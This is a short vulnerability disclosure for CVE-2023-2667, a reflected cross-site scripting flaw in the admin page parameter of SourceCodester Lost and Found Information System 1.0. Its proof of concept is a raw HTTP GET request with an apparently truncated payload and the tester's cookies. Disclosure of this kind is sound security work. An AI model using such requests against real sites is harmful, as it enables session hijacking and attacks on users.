

# Exploit Title: OURCECODESTER LOST AND FOUND INFORMATION SYSTEM 1.0 ADMIN/ PAGE CROSS SITE SCRIPTING

A vulnerability was found in SourceCodester Lost and Found Information System 1.0 and classified as problematic. Affected by this issue is some unknown functionality of the file admin/. The manipulation of the argument page leads to cross site scripting
### Date: 
> 12 May 2023

### ID: CVE-2023-2667
### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [LOST AND FOUND INFORMATION SYSTEM](https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html)
### Version:
> v 1.0

# Tested On: Windows 10, XAMPP

### Affected Page:
> admin/?page=


### Description:
> A vulnerability has been found in SourceCodester Lost and Found Information System 1.0 and classified as problematic. Affected by this vulnerability is an unknown code of the file admin/. The manipulation of the argument page with an unknown input leads to a cross site scripting vulnerability.
### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: /php-lfis/admin/?page=PAYLOAD_XSS
```
GET /php-lfis/admin/?page="> HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: remember_me_name=bMGFrQaFzDhuoLmztZCT; remember_me_pwd=YMSm3Q2wFDHaHLQ5eZPKc42oU7CaK8IlA%40q1; remember_me_lang=en; Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680329430; Hm_lvt_5320b69f4f1caa9328dfada73c8e6a75=1680329567; PowerBB_username=xss; PowerBB_password=8879f85d0170cba2a4328bbb5a457c6a; menu_contracted=false; __atuvc=1%7C16; PHPSESSID=kt5sfckl2e0fle94p3bdha9n45
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
2. Alert

